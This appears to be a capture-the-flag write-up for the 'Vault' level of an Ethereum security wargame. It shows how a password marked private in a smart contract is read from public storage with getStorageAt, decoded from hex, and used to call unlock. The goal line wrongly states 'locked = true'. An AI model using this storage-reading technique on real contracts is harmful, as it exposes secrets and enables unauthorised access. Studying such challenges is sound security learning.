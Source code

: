 # Level 8 - Vault

### Goal
The goal is to unlock the contract (i.e. locked = true).

### Approach
Values stored on the blockchain are publicly accesible. Even if we set them to private within the contract they can be found (private just means there is no automatic getter function for this variable). Understanding how storage work in Ethereum, we know that slot 0 is partially occupied with the bool value of locked (namely false, which is stored at 0 in Hex). The 2nd variable the contract stores is the password and it occupies 32 bytes (this takes up an entire slot). This the password will be allocated to slot 1 in a Hex format. We can get this data by calling the contract storage as such (I ran this in truffle console connected to the Ropsten network):
```
await web3.eth.getStorageAt(address, 1)
```
We can then convert this to ascii.
```
await web3.utils.hexToAscii('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
...
'A very strong secret password :)'
```
We can then send this as an argument to unlock the contract.
```
contract.unlock('A very strong secret password :)')
```
